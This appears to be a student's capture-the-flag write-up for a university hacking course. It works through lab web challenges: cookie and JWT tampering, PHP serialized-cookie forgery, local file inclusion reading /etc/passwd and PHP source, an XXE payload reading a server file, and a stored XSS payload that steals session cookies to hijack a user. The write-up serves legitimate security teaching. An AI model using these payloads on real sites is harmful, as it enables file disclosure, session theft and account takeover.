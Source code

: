 # Exercise 2 (Lecture 2)

Exercises using Haaukins for the Hacker space course in the spring semester 2024.

## Admin logon

**Challenge Description**: Menne company at menne.com is hiding things from all of its users. Can you login as admin and find out what they want to keep secret? It doesn’t seem to check anyone’s password.

### Challenge Solution
This was a simple cookie manipulation challenge, which was solved by chaning `{admin: False}` to `{admin: True}` in the cookie and reloading the site.

## JWT

**Challenge Description**: Visit jwt.com. What is that cookie after you have logged in? Have you ever heard of JWT?

### Challenge Solution
This challenge supplied a JWT, which had a simple secret set. In order to crack the secret, John the ripper was used. The secret was `challenge`. Using the JWT.com jwt parser to change the user to admin and resigning the cookie with the correct secret, this challenge was solved.

## Serilizator

**Challenge Description**: Visit serializator.com. Login as Admin to reach the goal!

### Challenge Solution

In this challenge we are presented with a login screen. No matter which username and password is supplied, the website accepts it and logs us in with the message `{username} you might not be ale to see the content! You should log in with a different account! Log in`. Viewing the storage tab of firefox (inspect) it is seen a cookie is set for the user. It looks to be encoded as URL encoding and Base64. Using cyberchef to decode this it provides: `O:4:"User":2:{s:8:"username";s:3:"hej";s:7:"isAdmin";b:0;}` Using cyberchef the cookie is changed to `"isAdmin":1` like this: `O:4:"User":2:{s:8:"username";s:3:"hej";s:7:"isAdmin";b:1;}` and then encoded as base64 and URL encoding last. Supplying this cookie to the browser and relading gives us the flag!: HKN{zU-zLN-jMbCL}.

## Challenge: Exploracaõ

**Challenge Description**:  Mom, can we have geoguessr? No we have geoguessr at home: i3geo

### Challenge solution

Seemingly no exploit on the loging page or by manipulating the cookies. However a Local file inclusion (LFI). Where the attacker can print out arbitrary files on the filesystem using the URL. `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd` this URL will print the passwd file of the server. The page `http://exploracao.hkn/i3geo/flag.php` shows that the flag is only visible to admin user, so we either need to find the flag file or find the admin user credentials.

PHP code is evaluated and sends a rendered HTML file to the user if we try to get it through the URL with LFI. Therefore we are able to craft a URL `http://exploracao.hkn/i3geo/exemplos/codemirror.php?&pagina=php://filter/convert.base64-encode/resource=../flag.php` which uses PHP filters to encode the file to base64 before returning the output to the browser. This way the PHP code is not excecuted. The very interesting part is the filters applied: `php://filter/convert.base64-encode/resource=../flag.php`. Pasting the result into cyberchef gives the original output:

```php
<?php
define("ONDEI3GEO", ".");
include "ms_configura.php";
include "./init/head.php";
?>

<body style="padding-top: 90px;" id="topo">
    <nav class="navbar navbar-default navbar-fixed-top">
        <div class="container-fluid">
            <div class="navbar-header">
                <button type="button" title="icon-bar" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only"></span> <span class="icon-bar"></span> <span class="icon-bar"></span> <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" onclick="$('.cartao').fadeIn(600);" href="./init/index.php">
                    <span class="material-icons md-18">home</span> <?php echo $mensagemInicia;?>
                </a>
            </div>
            <div id="navbar" class="navbar-collapse collapse navbar-responsive-collapse">

            </div>
        </div>
    </nav>

    <!-- FLAG -->
    <div class="container-fluid row center-block;" style="width:100%" id="conteudoPrincipal" tabindex="-1">
        <div class="row center-block text-center" style="max-width:1000px">
            <?php
            if ($_SESSION["usuario"] === "administrador") {
                echo "<h2>DDC{Static_Flag_redacted}</h2>";
            } else {
                echo "<h2>Flag is only visible to admin user</h2>";
            }
            ?>
        </div>
    </div>

    <div tabindex="-1" class="navbar-fixed-bottom container-fluid" style="background-color: #fff; margin-top: 10px; padding-top: 10px;">
        <div class="row text-center">
            <div class="col-lg-12 center-block">
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">
                    <img alt="Licen&ccedil;a Creative Commons" style="border-width: 0" src="https://i.creativecommons.org/l/GPL/2.0/88x62.png" />
                </a>
                <br />O i3Geo est&aacute; licenciado com uma Licen&ccedil;a
                <a tabindex="-1" rel="license" href="http://creativecommons.org/licenses/GPL/2.0/legalcode.pt" target="_blank">Creative Commons - Licen&ccedil;a P&uacute;blica
                    Geral GNU (&#34;GNU General Public License&#34;)</a>
            </div>
        </div>
    </div>
</body>
</html>
```

Giving us the flag in the if statement. Original flag redacted, as it is static.

## External entities

**Challenge Description**: If a JSON string looks this `{“login”:{“user”:“username”,“pass”:“password”}}`… Then what would the same string look like in XML? Use the XML format of the string as a request to a webserver at external.com. Manipulate it to print the flag.txt file located in the /home/ directory.

### Challenge Solution

This challenge is about XML External Entity injection. This kind of attack happens when an attacker has control over the XML which is parsed by a webserver, XML entities are variables in XML. The service on `external.com` uses a specific format of XML for logging in a user. The format is the XML equivalent of the JSON from the Challenge description: `<login><user>username</user><pass>password</pass></login>`. In reality this webserver just informs the user which username has been parsed in the `<user>` tag of the xml. This is seen in the respone: 

```html
<pre>You have logged in to the server as username</pre>
```

This means that we can use XML entities to write out the contents of the file system through this username attribute. The payload looks like this: 

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///home/flag.txt'> ]>
<login>
<user>hej&xxe;</user>
<pass>pass</pass>
</login>
```

Here the Document type definition is used to load the contents of the flag.txt into the `xxe` variable, and then this variable is supplied to the user tag, where it will be printed to the browser. The response will be:

```html
<pre>You have logged in to the server as hej
HKN{R2-Njh-o2JCW}
</pre>
```

And there the flag is located!

**Note:** Using curl, it is possible to parse a file as the data by using `-d @file-path` as a param.

## Sharing is caring

**Challenge Description**: Across the site `https://dogshare.com`, alot of delicious hotdogs has been shared. Maybe you can make the users visiting the site share a little extra?

### Challenge Solution

The website hosted on `https://dogshare.com` is a blog where users can share pictures of hotdogs. No user is supplied, yet even without one, it is possible to comment on the posts. This might be an XSS challenge. We are able to achieve stored XSS by posting a comment with the payload: `<img src='#' onerror=alert(1) />`. It seems like some tags are sanitized and others are not, like the image tag.

After achieving XSS we need to modify the payload of the stored XSS, to post the cookie of the other users. This is done by changing the code in the onerror part of the img tag to the following:

```js
fetch("/comments", {method: "POST", headers: {'Content-Type': 'application/x-www-form-urlencoded'},body: "did=1&comment=" + btoa(document.cookie)})
```

Here the fetch JS function is used to post a comment to the dogshare website, including the document.cookie (a users cookie) encoded as base64. The `did=1` part of the form, is specifying which post to comment on.

**Note**: Payload needs to be URL encoded in order to parse correctly.

```urlencode
did=1&comment=test+<img+src%3d'%23'+onerror%3d"fetch('/comments',+{method%3a+'POST',+headers%3a+{'Content-Type'%3a+'application/x-www-form-urlencoded'},+body%3a+'did%3d1%26comment%3d'+%2b+btoa(document.cookie)})"+/>
```

When the comment is registered and other user visit the a comment is posted with their session cookie: `c2Vzc2lvbj03YjNmMjNmNzVhOGU1ZTdhYTU4YjgwOTJmMjVhOTFkNQ` encoded as base64. The cookie is decoded and parsed into the browser as: `session=7b3f23f75a8e5e7aa58b8092f25a91d5`. When reloading the site, we are logged in as Kristy.

Found flag!: HKN{MP-3G-Oxo4kC}

